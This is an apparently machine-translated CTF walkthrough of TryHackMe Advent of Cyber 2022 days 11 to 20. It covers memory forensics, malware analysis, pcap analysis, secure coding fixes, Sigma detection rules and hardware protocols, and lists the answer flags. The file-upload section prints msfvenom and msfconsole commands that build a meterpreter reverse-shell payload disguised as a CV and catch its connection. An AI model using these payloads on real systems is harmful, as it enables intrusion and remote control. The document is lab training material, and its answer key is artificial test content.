### 易失性框架-易失性内存提取实用框架…

github.com](https://github.com/volatilityfoundation/volatility.git) *

## *1.内存映像捕获的 Windows 版本号是多少？*

> **注意:此初始扫描可能需要 10 分钟才能完成。为什么不喝点水或者伸伸腿呢？**

*扫描图像以收集信息！！通过使用下面的命令，*

```
*python3 vol.py -f workstation.vmem windows.info*
```

**

*上面的扫描将提供图像的基本细节。*

*我们拿到结果了！*

**

```
*Ans: 10*
```

## *2.神秘圣诞老人留下的二进制/礼物的名字是什么？*

```
*python3 vol.py -f workstation.vmem windows.pslist*
```

**

*volatility 中的 Ps list 用于扫描和显示来自内存转储或映像的进程列表*

**

```
*Ans: mysterygift.ex*
```

## *3.这个二进制文件的进程 ID (PID)是什么？*

*我们已经利用了上述问题中的 PID！！*

**

```
*Ans: 2040*
```

## *4.转储该二进制文件的内容。转储了多少文件？*

*现在让我们使用下面的命令转储 PID 上的文件，*

```
*python3 vol.py -f workstation.vmem windows.dumpfiles --pid 2040*
```

**

```
*Ans: 16*
```

**

# *任务 17[第 12 天] **恶意软件分析** |法医 McBlue 到 REVscue！*

> **启动机器，进入状态**

## *1.恶意软件示例的架构是什么？(32 位/64 位)*

***让我们用“轻松检测”打开文件***

> **Detect It Easy，简称“DIE”是一个用于确定文件类型的程序。**
> 
> **“DIE”是一个跨平台的应用，除了 Windows 版本还有 Linux 和 Mac OS 的版本。**

******

*因此它是 64 位架构！！！*

```
*Ans: 64-bit*
```

## *2.恶意软件示例中使用的打包程序是什么？(格式:小写)*

*分析上面的图像图像！*

**

```
*Ans: upx*
```

## *3.用于构建恶意软件样本的编译器是什么？(格式:小写)*

*让我们用 capa 来分析这个文件*

> **capa 检测可执行文件中的功能。你和一个 PE，ELF，对着干。NET 模块或外壳代码文件，它会告诉你它认为程序可以做什么。例如，它可能表示该文件是一个后门程序，能够安装服务，或者依赖 HTTP 进行通信。**

```
*capa -vv mysterygift*
```

****

```
*Ans: nim*
```

## *4.有多少米特 ATT 和 CK 技术被发现归功于发现策略？*

****

```
*Ans: 2*
```

## *5.恶意软件滥用的注册表项是什么？*

*这里我们想打开屏幕底部的进程监视器*

**

*将流程名称添加为 mysterygift.exe，然后单击添加*

**

*将文件扩展名更改为 exe*

**

*现在请注意进程监视器*

**

*我们只需要 RegCreateKey 包含操作，或者您可以排除下面列出的不必要的包，*

*   *RegOpenKey*
*   *RegQueryValue*
*   *RegQueryKey*
*   *RegCloseKey*

**

*右键单击并单击排除！！*

*您可能会注意到只有一个注册表项同时具有 **RegCreateKey** 和 **RegSetValue** 。该密钥与名为**注册表运行密钥修改**的持久性技术相关，通常被恶意软件开发者用来安装后门。*

**

```
*Ans: HKCU\Software\Microsoft\Windows\CurrentVersion\Run*
```

## *6.根据上一个问题，注册表项上写的值是什么？*

*双击我们找到的结果*

****

```
*Ans: C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\wishes.bat*
```

## *7.恶意软件在 C:\Users\Administrator\目录下创建的两个文件的名称是什么？(格式:文件 1、文件 2 按字母顺序排列)*

*点击下图右上角的文件夹过滤器，*

*仅包括 CreateFile 操作*

****

```
*Ans: test.jpg, wishes.bat*
```

## *8.恶意软件发起网络连接的两个域是什么？(格式:按字母顺序排列的域 1、域 2)*

*添加以下过滤器并搜索域*

**

*这里我们可以看到，网络活动中的 2 个领域是*

**

```
*Ans: bestfestivalcompany.thm, virustotal.com*
```

## *9.回到恶意软件示例中的字符串，用于下载恶意软件访问的第一个域中托管的文件的完整 URL 是什么？*

*在 CMD 上使用下面的命令！*

```
*cd "Desktop\Malware Sample" 
floss -n 6 mysterygift.exe | grep http://*
```

*或者你可以使用 Detect 很容易地找到 EXE 中的字符串*

******

```
*Ans: http://bestfestivalcompany.thm/favicon.ico*
```

**

# *任务 18[第 13 天]数据包分析|享受美好的 pcap 时光*

## *为什么数据包分析仍然重要？*

*   *网络流量是一个纯粹而丰富的数据源。网络事件的数据包捕获(PCAP)为分析提供了丰富的数据源。*
*   *捕获实时数据可以集中在流量上，流量只提供网络流量的统计数据。另一方面，识别和深入研究网络模式是在数据包级别完成的。*
*   *因此，没有数据包分析，就无法进行威胁检测和实时性能故障排除。*

## *用于此任务的工具和网站是！！*

1.  *[Wireshark](https://www.wireshark.org/) —用于数据包捕获和分析*
2.  *[赛博咖啡馆网络版](https://gchq.github.io/CyberChef/) —针对方得*
3.  *【Virustotal.com】T4—分析哈希*

> *启动你的机器，并导航到它*

# *我们开始吧*

## *1.“超文本传输协议”的“数据包百分比”值是多少？*

> **查看“协议层级”菜单。**

*将 pca 文件拖放到 Wireshark 中，并导航到**统计信息→协议层次结构***

******

*查看 HTTP 数据包的百分比*

```
*Ans:  0.3*
```

## *2.哪个端口号收到了超过 1000 个数据包？*

*正如我们所知，TCP 已经收到了 1000 多个数据包*

> **查看“对话”**

**

*导航至**统计→对话**并选择 TCP*

**

```
*Ans: 3389*
```

## *3.收到超过 1000 个数据包的协议的服务名称是什么？*

**

```
*Ans: RDP*
```

## *4.域名有哪些？
按字母顺序和默认格式输入域。(格式:域[。]zzz，域[。]zzz)*

> **过滤 DNS 数据包。**

******

*对于其他数据包，请遵循相同的步骤*

****

*被拦截的网址位于 [**网吧**](https://github.com/gchq/CyberChef) 下方*

```
*Ans: bestfestivalcompany[.]thm,cdn[.]bandityeti[.]thm*
```

## *5.请求的文件的名称是什么？
按字母顺序和缺省格式输入姓名。(格式:file.xyz，file.xyz)*

> **过滤 HTTP 数据包。**

*应用 http 过滤器*

****

*按字母顺序和格式归档(由 [Cyberchef](https://github.com/gchq/CyberChef) )*

```
*Ans: favicon[.]ico,mysterygift[.]exe*
```

## *6.哪个 IP 地址下载了可执行文件？以默认格式输入您的答案。*

*在这种情况下，源是下载文件的主机！！*

**

*以下 Ip 是默认格式！*

```
*Ans: 10[.]10[.]29[.]186*
```

## *7.哪个域地址托管恶意文件？以默认格式输入您的答案。*

*右键点击使用 **GET 请求到 mysterygift.exe**的数据包，点击 **Follow → http Stream***

****

```
*Ans: cdn[.]bandityeti[.]thm*
```

## *8.用于下载不可执行文件的“用户代理”值是什么？*

*右键单击不可执行文件的数据包，然后跟随 http 流*

**

```
*Ans: Nim httpclient/1.6.8*
```

## *9.可执行文件的 sha256 哈希值是多少？*

> **从 PCAP 文件中导出对象。
> 计算文件哈希值。**

*点击**文件→导出对象- > HTTP** ，保存文件*

******

*现在打开终端，输入命令！！**(如果需要，导航到该文件)***

```
*sha256sum mysterygift.exe*
```

**

```
*Ans: 0ce160a54d10f8e81448d0360af5c2948ff6a4dbb493fe4be756fc3e2c3f900f*
```

## *10.连接的 IP 地址是什么？
按数字顺序输入 IP 地址。(格式:IPADDR，IPADDR)*

> **在 Virustotal 上搜索可执行文件的哈希值。
> 导航至“行为”部分。
> 有多个 IP 地址与此文件相关联。**

*打开 [Virustotal](https://www.virustotal.com/gui/home/search) 网站并搜索哈希*

 *[## 病毒总数

### 病毒总数

VirusTotalwww.virustotal.com](https://www.virustotal.com/gui/home/search)* **

*单击行为选项卡并向下滚动以查找 IP*

****

*Ip 在 defanged 和字母顺序没有空间，我们不需要 8.8.8.8-谷歌的 Dns 服务器*

> ****挑战更新，多加了一个 IP****

```
*Ans: 20[.]99[.]133[.]109,20[.]99[.]184[.]37,23[.]216[.]147[.]64,23[.]216[.]147[.]76*
```

**

# *任务 19[第 14 天] Web 应用程序|我梦想着安全的 Web 应用程序*

## *1.精灵支点 McRed 的办公电话是多少？*

*由于这个网页有一个 IDOR 漏洞，所以，让我们改变参数*

******

```
*Ans: 134*
```

## *2.不仅个人资料页面容易受到攻击，存储的图像也容易受到攻击。以有效配置文件图像的 URL 开始；隐藏的旗帜是什么？*

*右键单击图像，然后单击在新选项卡中打开图像*

****

*将图像参数从 100-107 更改为*

**

```
*Ans: THM{CLOSE_THE_DOOR}*
```

**

# *任务 20[第 15 天]安全编码|圣诞老人正在寻找一个助手*

# *输入验证*

> *输入验证不足是 web 应用程序最大的安全隐患之一。当用户提供的输入受到应用程序的固有信任时，就会出现此问题。由于用户输入也可能被攻击者控制，我们可以看到这种固有的信任是如何导致许多问题的。*
> 
> *几个 web 应用程序漏洞，如 SQL 注入、跨站点脚本和无限制的文件上传，都源于用户输入验证不充分的问题。*

*启动机器，将机器的 IP 粘贴到浏览器中！*

> *如果需要，连接 TryHackMe 的 VPN*

**

# *任务 20[第 15 天]安全编码|圣诞老人正在寻找一个助手*

## *1.允许威胁参与者上传他们想要的任何文件的文件上传的名称是什么？*

*通过对服务器的无限制上传访问(以及随意检索数据的能力)，攻击者可以篡改或以其他方式更改现有内容，甚至包括注入恶意网页，从而导致进一步的漏洞，如跨站脚本(XSS)或跨站请求伪造(CSRF)*

```
*Ans: Unrestricted*
```

## *2.圣诞老人的自由职业者开发的 web 应用程序的标题是什么？*

**

```
*Ans: Santasidekick2*
```

## *3.HR Elf 的 Documents 目录中存储的标志值是多少？*

*只需上传一个虚拟文件！！*

****

> **cv-username.exe**简历文件上传完毕！！圣诞老人团队会审核你的简历并联系你！因为 Santa 相信强大的安全性，所以文件被存储在 web 根目录之外。不允许有不道德的精灵！****

*上面的消息确保有人会检查文件，所以我们可以上传一个有效负载并等待交互*

```
*msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR-MACHINE-IP> LPORT=8080 -f exe -o cv-username.exe*
```

**

*让我们启动反向处理器！！*

```
*sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <YOUR-MACHINE-IP>; set LPORT 8080; exploit"*
```

****

*让我们将我们在 Home Directory 中创建的有效负载上传到网站，然后等待交互！！*

**

*我们得到了反向连接！！*

**

*现在让我们利用*

**

*我们在 system32 目录中，所以让我们回到 C:目录*

```
*cd ..
cd .. 
cd Users
cd HR_Elf
cd Documents
cat flag.txt*
```

******

```
*Ans: THM{Naughty.File.Uploads.Can.Get.You.RCE}*
```

## *4.可以实施什么防御技术来确保特定类型的文件可以上传？*

> **为了确保可以上传特定的文件类型，我们可以验证文件扩展名。这将允许我们限制可以上传的文件类型。**

```
*Ans: file Extension validation*
```

## *5.可以使用什么防御技术来确保威胁参与者无法通过简单地使用文件名再次恢复他们的文件？*

*即使我们的上传存储在 web 根目录之外，攻击者也可以利用其他漏洞(如文件包含)来执行文件。*

*为了对抗这些企图，我们可以将 ***重命名*** 上传的文件随机命名，使得攻击者几乎不可能通过名字来恢复他们的文件*

```
*Ans: File Renaming*
```

## *6.什么样的防御技术可以用来确保伤害精灵的恶意文件不会被上传？*

*仍然存在攻击者上传恶意文件的风险，该文件的目标是审核 CVs 的精灵。由于圣诞老人是一个高价值的个体，一些民族国家甚至可能使用 PDF 阅读器中发现的专门漏洞来上传恶意 PDF，希望能够将自己从圣诞老人的淘气名单中删除！*

*为了打击这些类型的恶意文件，我们可以 ***扫描上传文件中的恶意软件*** 。我们可以安装一个包，比如 ClamAV，用它来扫描每个上传文件的内容*

```
*Ans: Malware Scanning*
```

**

# *任务 21[第 16 天]安全编码| SQLi 的国王，颂歌歌唱*

**

*通过添加您的机器 IP 打开链接—[http://<Machine-IP>. p . thm labs . com/](http://10-10-207-106.p.thmlabs.com/)*

**

*凭据:*

**

## *1.Flag1 的值是多少？*

> **我们可以合理地假设网站期望一个整数* `*id*` *被发送**
> 
> *为了避免注入，我们可以将用户在 id 参数中输入的任何内容转换成整数。所以为此，我们将使用 `*intval()*` *功能。**
> 
> **此函数将获取一个字符串，并尝试将其转换为一个整数。如果在字符串上没有找到有效的整数，它将返回 0，这也是一个整数。让我们打开* `*search-toys.php*` *并更改参数**

```
*Change the $_GET['id'] to intval($_GET['id']) Everywhere on the elf.php File*
```

******

*运行检查*

**

```
*Ans: THM{McCode, Elf McCode}*
```

## *2.Flag2 的值是多少？*

> **首先，我们将修改我们的初始查询，用一个带问号(* `*?*` *)的占位符替换任何参数。**
> 
> **这将告诉数据库我们想要运行一个以两个参数作为输入的查询。然后查询将被传递给* `*mysqli_prepare()*` *函数而不是我们通常的* `*mysqli_query()*` *。**
> 
> *`*mysqli_prepare()*` *还不会运行查询，但会指示数据库使用给定的语法准备查询。该函数将返回一个准备好的语句。**

****

> *MySQL 需要知道我们之前定义的每个占位符的值。所以我们可以使用 `*mysqli_stmt_bind_param()*` *函数给每个占位符附加变量。**
> 
> **该函数需要您发送 2 个函数参数！！**
> 
> **第一个参数应该是对要绑定变量的准备好的语句的引用。**
> 
> **第二个参数是由每个要绑定的占位符一个字母组成的字符串，其中字母表示每个变量的数据类型。因为我们要传递两个字符串，所以我们将* `*"ss"*` *放在第二个参数中，其中每个“s”代表一个字符串类型的变量。您也可以使用字母“I”表示整数，或“d”表示浮点数**

**

*最终代码如下所示*

```
*$q = "%".$_GET['q']."%";
$query="select * from toys where name like ? or description like ?";
$stmt = mysqli_prepare($db, $query);
mysqli_stmt_bind_param($stmt, 'ss', $q, $q);
mysqli_stmt_execute($stmt);
$toys_rs=mysqli_stmt_get_result($stmt);*
```

**

```
*Ans: THM{KodeNRoll}*
```

## *3.Flag3 的价值是什么？*

*我们也必须改变 toys.php 的参数*

*更改以下参数$ _ GET[' id ']；*

**

*to intval($ _ GET[' id '])；在**上处处可见**在 toys.php 的文件*

****

```
*Ans: THM{Are we secure yet?}*
```

## *4.Flag4 的价值是什么？*

*添加带有问号(`?`)占位符的用户名和密码参数，其余参数与我们在第 2 个问题中所做的相同，我们将用户名和密码参数添加到 mysqli_stmt_bind_param 方法并执行它！！*

**

*把上面的代码修改成下面的代码！！*

```
*<?php
require_once("connection.php");
session_start();*
```

```
*if(isset($_POST['username']) && isset($_POST['password'])){
 $username=$_POST['username'];
 $password=$_POST['password'];
 $query="select * from users where username=? and password=?";
 $stmt = mysqli_prepare($db, $query);
 mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
 mysqli_stmt_execute($stmt);

 $users_rs=mysqli_stmt_get_result($stmt);*
```

*现在快跑。！*

**

```
*Ans: THM{SQLi_who???}*
```

**

# *任务 22[第 17 天]安全编码|在混乱中过滤秩序*

## *HTML5 和正则表达式*

*HTML5 的内置特性在验证用户提供的输入方面帮助很大，最大限度地减少了对 JavaScript 的依赖。*

*`<input>`元素特别提供了一系列围绕表单验证的非常有用的功能。*

*`<input>`类型可以被设置为专门过滤电子邮件、URL 甚至文件等，它会立即检查用户提供的输入是否符合表单要求的数据类型，因此，关于其有效性的反馈会立即返回给用户。*

*对于所提供的更细粒度的输入控制，可以将正则表达式(regex)集成到组合中。只需在`<input>`元素的“模式”属性中使用它，就万事俱备了。*

*[这里的](https://www.regular-expressions.info/quickstart.html)是开始学习正则表达式的好资源。下面是几个例子。*

*`1\. <input type="text" id="uname" name="uname" pattern="[a-zA-Z0-9]+">
2\. <input type="email" id="email" name="email" pattern=".+@0dayinventions\.com">`*

> **启动机器，导航到 RegExPractice 文件夹，然后右键单击→在终端中打开**

**

## *1.过滤用户名:有多少用户名符合上面的语法？*

*我们必须按照用户名的结构使用正则表达式*

**

```
*9z8yMc9T
31337aq
39C3qxP
R6fUTY2nC8
9Qe5f4
User35
u3Y73h3
5Xze553j*
```

```
*Ans: 8*
```

## *2.过滤用户名:一个用户名由一个可读的单词和一个数字连接而成。这是什么？*

**

```
*Ans: User35*
```

## *3.过滤邮件:有多少邮件符合上面的语法？*

```
*egrep ‘.+@.+\.com’ strings*
```

**

```
*br33zy@gmail.com
lewisham44@amg.com
johnny.the.sinner@yahoo.com
badyeti@gmail.com
maxximax@fedfull.com
jklabada@tryhackme.com
johnny.the.sinner@yahoo.com
hunter4k@canary.com
hussain.volt@hotmail.com
marckymarc@tryhackme.com
batteryvoltas@alfa.com*
```

```
*Ans: 11*
```

## *4.过滤电子邮件:有多少独特的域名？*

**

```
*Ans: 8*
```

## *5.过滤电子邮件:本地部分为“lewisham44”的电子邮件的域是什么？*

**

```
*Ans: amg.com*
```

## *6.过滤电子邮件:带有本地部分“maxximax”的电子邮件的域是什么？*

**

```
*Ans: fedfull.com*
```

## *7.过滤电子邮件:域名为“hotmail.com”的电子邮件的本地部分是什么？*

**

```
*Ans: hussain.volt*
```

## *8.过滤 URL:有多少 URL 符合提供的语法？*

```
*egrep '^http(s)?.{3}(www)?.+\..+$' strings*
```

**

```
*http://www.sample.net/blood?ghost=force
http://keebler.com/dicta-tempore-id-dolores-blanditiis-ut.html
http://koch.com/quae-perspiciatis-non-unde-quo
http://johns.net/nisi-quis-dolorum-et-rerum
https://www.sample.edu/#fire
http://www.sample.info/?mint=trouble&action=move
https://www.sample.org/?quiet=expansion&grip=eggnog
http://spencer.com/sapiente-tempore-omnis-a-est-aut-atque-pariatur
http://pfeffer.biz/nulla-non-facilis-incidunt-necessitatibus-velit-inventore
https://www.kertzmann.com/possimus-ullam-consequatur-itaque-sed-modi-aliquam
https://www.sample.com/?air=color&cave=judge#shake
http://schinner.com/quia-vitae-qui-explicabo-provident-minima-ratione.html
https://runolfsson.com/esse-ab-rerum-et-quis-aut.html
https://www.moen.com/explicabo-exercitationem-culpa-et-eum-temporibus
https://horse.sample.com/shape/company?mom=collar#donkey
http://batz.com/reprehenderit-voluptate-id-soluta-tenetur*
```

```
*Ans: 16*
```

## *9.过滤网址:这些网址中有多少是以“https”开头的？*

*从 https 开始计算 URL 的数量*

**

```
*Ans: 7*
```

**

# *任务 23[第 18 天]适马|伐木工人莱尼学习新规则*

# *威胁检测*

*网络威胁和犯罪分子有先进的策略来确保他们窃取信息并造成破坏。正如你已经通过前几天看到的，有许多方法可以做到这一点。*

*安全团队也有一些方法来准备防御和识别这些威胁。显而易见的是，大多数蓝队活动都需要主动分析不同的日志、恶意软件和网络流量。这带来了威胁检测的实践。*

> **在浏览器中打开机器的 IP 地址(确保您连接了 TryHackMe 的 VPN)**

**

## *1.什么是挑战 1 标志？*

*[账户创建](https://attack.mitre.org/techniques/T1136/)技术要求*

*   *事件 ID: 4720*
*   *服务:安全*

*[](https://attack.mitre.org/techniques/T1136/) [## 创建帐户

### 对手可能会创建一个帐户来维护对受害者系统的访问。拥有足够的访问权限，创建…

attack.mitre.org](https://attack.mitre.org/techniques/T1136/) 

```
title: Local Account Creation
id: 1
status: experimental # test, stable, deprecated, unsupported.
description:
author:
date:
modified: 1
```

```
logsource: 
  product: windows 
  service: security
  category: # firewall, web, antivirus, process_creation, network_connection, file_access.
detection:
  selection:
    EventID: 4720 condition: selection # Action to be taken. Can use condition operators such as OR, AND, NOT when using multiple search identifiers.falsepositives: # Legitimate services or use.level: lowtags: # Associated TTPs from MITRE ATT&CK
  - {attack.tactic} # MITRE Tactic
  - {attack.technique} # MITRE Technique
```

```
Ans: THM{n0t_just_your_u$ser}
```

## 2.在挑战 1 日志中，创建了哪个用户帐户？

单击查看日志按钮并搜索用户帐户


```
Ans: BanditYetiMini
```

## 3.挑战 2 标志是什么？

我们必须为软件发现创建新的规则，它要求

*   类别:流程创建
*   事件 ID: 1
*   服务:Sysmon
*   image:C:\ Windows \ System32 \ reg . exe
*   命令行:`reg query “HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer” /v svcVersion`

[](https://attack.mitre.org/techniques/T1518/) [## 软件发现

### 对手可能试图获取安装在系统或云中的软件和软件版本的列表…

attack.mitre.org](https://attack.mitre.org/techniques/T1518/) 

```
title:
id: # UUID
status: # experimental, test, stable, deprecated, unsupported.
description:
author:
date:
modified:
```

```
logsource:
  product: windows
  service: sysmon
  category: process_creation
detection:
  selection:
    EventID:
    - 1
    Image|endswith:
    - reg.exe
    CommandLine|contains|all:
    - reg
    - query
    - /v
    - svcVersion condition: selection # Action to be taken. Can use condition operators such as OR, AND, NOT when using multiple search identifiers.falsepositives: # Legitimate services or use.level:  # informational, low, medium, high or critical.tags: # Associated TTPs from MITRE ATT&CK
  - {attack.tactic} # MITRE Tactic
  - {attack.technique} # MITRE Technique
```

```
Ans: THM{wh@t_1s_Runn1ng_H3r3}
```

## 4.挑战#2 日志文件中的用户路径是什么？

打开日志文件，这样我们就可以获得用户的路径


```
Ans: SIGMA_AOC2022\Bandit Yeti
```

## 5.挑战 3 标志是什么？

让我们为计划任务创建一个规则，它要求

*   类别:流程创建
*   事件 ID: 1
*   服务:Sysmon
*   image:C:\ Windows \ System32 \ schtasks . exe
*   父映像:C:\Windows\System32\cmd.exe
*   命令行:`schtasks /create /tn "T1053_005_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"`

[](https://attack.mitre.org/techniques/T1053/005/) [## 计划任务/作业:计划任务

### 对手可能会滥用 Windows 任务计划程序来执行任务计划，以初始或重复执行…

attack.mitre.org](https://attack.mitre.org/techniques/T1053/005/) 

```
title:
id: # UUID
status: # experimental, test, stable, deprecated, unsupported.
description:
author:
date:
modified:
```

```
logsource: 
  product: windows
  service: sysmon
  category: process_creation
detection:
  selection:
    EventID: 1
    Image|endswith:
    - schtasks.exe
    CommandLine|contains|all:
    - schtasks
    - /create   condition: selection # Action to be taken. Can use condition operators such as OR, AND, NOT when using multiple search identifiers.falsepositives: # Legitimate services or use.level:  # informational, low, medium, high or critical.tags: # Associated TTPs from MITRE ATT&CK
  - {attack.tactic} # MITRE Tactic
  - {attack.technique} # MITRE Technique
```

```
Ans: THM{sch3dule_0npo1nt_101}
```

## 6.与挑战#3 日志关联的 MD5 哈希是什么？

打开哈希的日志文件


```
Ans: 2F6CE97FAF2D5EEA919E4393BDD416A7
```


# 任务 24[第 19 天]硬件黑客| Wiggles go brrr

> *让我们进入 0 和 1 的世界。这就引出了一个问题，硬件是如何获取电能并产生信号的？在这项任务中，我们将重点关注数字通信。*
> 
> *对于硬件通信，我们使用一种叫做* ***逻辑分析仪*** *的设备来分析信号。该设备可以连接到用于两个设备之间通信的实际电线，这两个设备将捕获并解释正在发送的信号。*

**USART**

通用同步/异步接收器-发射器(USART)通信，或者更广为人知的串行通信，是一种使用两条线的协议。

一根线用于从器件 A 向器件 B 发送(TX)数据，另一根线用于从器件 B 接收(RX)器件 A 上的数据，本质上，我们将一个器件的发送端口连接到另一个器件的接收端口，反之亦然。

**SPI**

串行外设接口(SPI)通信协议主要用于微处理器与传感器或 SD 卡等小型外设之间的通信。

虽然 USART 通信将时钟内置于 TX 和 RX 线路中，但 SPI 使用单独的时钟线。将时钟(SCK)与数据(数据)线分开允许同步通信，这更快且更可靠。

**I2C**

内部集成电路(I2C)通信协议是为了解决 USART 和 SPI 通信协议的缺点而创建的。由于 USART 是异步的，并且时钟内置于发送和接收线路中，因此设备必须提前就通信配置达成一致。

此外，速度会降低，以确保通信保持可靠。

另一方面，虽然 SPI 速度更快、更可靠，但它需要更多的通信线路，而且每增加一个外设都需要多一条片选线路。

# 让我们开始…

## 1.什么设备可以用来探测两台设备之间电线上传输的信号？

对于硬件通信，我们使用一种称为逻辑分析仪的设备来分析信号。

该设备可以连接到用于两个设备之间通信的实际电线，这两个设备将捕获并解释正在发送的信号。

```
Ans: logic analyser
```

## 2.USART 比 SPI 通讯快？(是，不是)

> *USART 通信将时钟内置在 TX 和 RX 线路中，但 SPI 使用单独的时钟线。*
> 
> *将时钟(SCK)与数据(data)线分开，可以实现同步通信，也就是* ***更快更可靠*** *。因此，代价是增加一根额外的电线，但我们获得了速度和可靠性的提升。*

```
Ans: Nay
```

## 3.USART 通信使用的电线比 SPI 少？(是，不是)

> *通用同步/异步接收器-发射器(USART)通信，或更广为人知的串行通信，是一种使用双线的协议。*
> 
> *一根线用于从设备 A 向设备 B 发送(TX)数据，另一根线用于从设备 B 接收(RX)设备 A 上的数据*

```
Ans: Yea
```

## 4.USART 的通讯速度比 I2C 快？(是，不是)

> *内部集成电路(I2C)通信协议旨在解决 USART 和 SPI 通信协议的缺点。*
> 
> *由于 USART 是异步的，并且时钟内置于发送和接收线路中，因此设备必须提前就通信配置达成一致。*
> 
> *此外，* ***速度降低*** *以保证通信保持可靠。*

```
Ans: Nay
```

## 5.I2C 使用比 SPI 更多的电线进行通信？(是，不是)

> *SPI 更快、更可靠，它需要更多的通信线路，每增加一个外设都需要多一条片选线路。*
> 
> I2C 试图解决这些问题。与 USART 类似，I2C 只利用 ***两条线*** *进行通信。I2C 使用串行数据(SDA)线和串行时钟(SCL)线进行通信。*

```
Ans: Nay
```

## 6.SPI 比 I2C 通信速度快？(是，不是)

SPI 比 I2C 更快更可靠

```
Ans: Yea
```

## 7.一对 I2C 线上最多可以连接多少台设备？


使用外部时钟线，通信仍然比 USART 更快更可靠，虽然比 SPI 稍慢，但地址信号的使用意味着多达 **1008 个设备**可以连接到相同的两条线上，并能够进行通信。

```
Ans: 1008
```

## 8.微处理器和 ESP32 芯片之间协商的新波特率是多少？

打开远程机器的拆分视图


打开 Logic 2.4.2 应用程序并打开 Capture-Santa


点击分析仪，添加异步串行分析仪，并将输入通道设为**通道 1，波特率/比特率设为 4800**


```
Ans: 9600
```

## 9.一旦新的波特率被接受，传输的标志是什么？

添加另一个异步串行分析仪，并将输入通道设为**通道 0，波特率/比特率设为 9600**


```
Ans: THM{Hacking.Hardware.Is.Fun}
```


# 任务 25[第 20 天]固件|在圣诞树周围漫步

> ***什么是固件逆向工程？***
> 
> *每一个嵌入式系统，如摄像头、路由器、智能手表等。预装了固件，该固件在硬件处理器上运行自己的指令集。*
> 
> *使* ***硬件能够与*** *设备上运行的其他软件进行通信。固件为设计者/开发者提供了在根级别进行改变的低级控制。*

**固件反转步骤**

